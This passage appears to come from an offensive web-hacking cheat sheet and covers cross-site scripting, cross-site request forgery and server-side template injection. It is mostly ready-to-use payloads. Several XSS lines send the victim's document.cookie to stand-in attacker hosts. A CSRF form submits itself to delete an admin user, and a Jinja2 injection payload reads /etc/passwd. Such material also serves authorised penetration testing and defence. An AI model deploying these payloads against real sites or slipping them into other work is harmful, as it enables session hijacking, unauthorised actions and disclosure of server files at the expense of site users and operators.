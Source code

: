 ***

#### 🧬 5. Cross-Site Scripting (XSS)

**🔍 Reflected XSS**

```html
<script>alert(1)</script>
```

**💥 Persistent XSS**

Inject into comment fields, profiles, or stored data.

**🧠 Payload Variations**

```html
"><svg/onload=alert(1)>
<img src=x onerror=alert(1)>
<script>fetch('http://attacker.com/'+document.cookie)</script>
```

**🚀 Stealth Payloads**

```html
<iframe src=javascript:alert(1)>
"><svg/onload=fetch('//attacker/xss?c='+document.cookie)>
```

***

#### 🧩 6. Cross-Site Request Forgery (CSRF)

Force user to execute unintended requests.

**💣 Example:**

```html
<form action="http://target/delete.php" method="POST">
  <input type="hidden" name="user" value="admin">
  <input type="submit">
</form>
<script>document.forms[0].submit()</script>
```

***

#### 🧩 7. Server-Side Template Injection (SSTI)

**🔍 Detect**

Try `{{7*7}}` or `${7*7}`

**💥 Exploit**

```jinja2
{{ ''.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read() }}
```

**Common Frameworks**
